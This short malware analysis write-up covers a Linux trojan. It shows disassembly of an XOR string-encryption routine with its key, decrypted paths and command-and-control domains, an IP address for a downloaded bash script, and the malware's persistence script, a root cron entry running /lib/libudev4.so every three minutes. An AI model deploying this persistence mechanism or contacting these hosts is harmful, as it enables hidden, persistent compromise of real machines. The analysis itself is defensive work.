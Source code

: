 Upon decompiling, there is a subroutine called as `encrypt_code`. This subroutine is using XOR to "encrypt" the string with the predefined key. The string can be "decrypt" using a simple Python script found here (https://gist.github.com/moonbingbing/3432989).

key = BB2FA36AAA9541F0

```assembly
0x8049090 <encrypt_code+0>:    push    ebp {__saved_ebp}
0x8049091 <encrypt_code+1>:    mov     ebp, esp {__saved_ebp}
0x8049093 <encrypt_code+3>:    push    esi {__saved_esi}
0x8049094 <encrypt_code+4>:    mov     esi, dword [ebp+0xc {arg2}]
0x8049097 <encrypt_code+7>:    push    ebx {__saved_ebx}
0x8049098 <encrypt_code+8>:    mov     ebx, dword [ebp+0x8 {arg1}]
0x804909b <encrypt_code+11>:    test    esi, esi
0x804909d <encrypt_code+13>:    jle     0x80490c2
0x804909f <encrypt_code+15>:    xor     ecx, ecx  {0x0}
0x80490a1 <encrypt_code+17>:    mov     eax, ecx
0x80490a3 <encrypt_code+19>:    sar     eax, 0x1f
0x80490a6 <encrypt_code+22>:    shr     eax, 0x1c
0x80490a9 <encrypt_code+25>:    lea     edx, [ecx+eax]
0x80490ac <encrypt_code+28>:    and     edx, 0xf
0x80490af <encrypt_code+31>:    sub     edx, eax
0x80490b1 <encrypt_code+33>:    movzx   eax, byte [edx+xorkeys]
0x80490b8 <encrypt_code+40>:    xor     byte [ecx+ebx], al
0x80490bb <encrypt_code+43>:    add     ecx, 0x1
0x80490be <encrypt_code+46>:    cmp     ecx, esi
0x80490c0 <encrypt_code+48>:    jne     0x80490a1
0x80490c2 <encrypt_code+50>:    mov     eax, ebx
0x80490c4 <encrypt_code+52>:    pop     ebx {__saved_ebx}
0x80490c5 <encrypt_code+53>:    pop     esi {__saved_esi}
0x80490c6 <encrypt_code+54>:    pop     ebp {__saved_ebp}
0x80490c7 <encrypt_code+55>:    retn
```

Some of the encrypted strings:

```
1. m4S4nAC/n&ZV - /var/run/gcc
2. m4S4nAC/nA - /var/run/
3. m6_6n3 - /tmp/
4. m [(n3 - /bin/
5. m7A4nQ_/nA - /usr/bin/
6. m.[$n__#4%\\C - /lib/libudev
7. &,Ak&\\Y&-$\x17ZFV|\x06rr\x02v=R\x1b%/2\x14R[^!\\\'lQ),\t - dns-google.org:60000|a-dns-google.com:
```

Further execution shows that a Bash script will be downloaded from `103.25.9.228` using a HTTP GET request. Last checked on 21/9/08, the IP address is no longer responding to any connection. However, some of the malware post-installation can still be found within the binary itself.

The post-installation consists of a Bash script named `/etc/cron.hourly/gcc4.sh` which contains the following lines.

```
#!/bin/sh
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/bin
cp /lib/libudev4.so /lib/libudev4.so.6
/lib/libudev4.so.6
```

```
sed -i \'/\\/etc\\/cron.hourly\\/gcc4.sh/d\' /etc/crontab && echo \'*/3 * * * * root /etc/cron.hourly/gcc4.sh\' > /etc/crontab
```
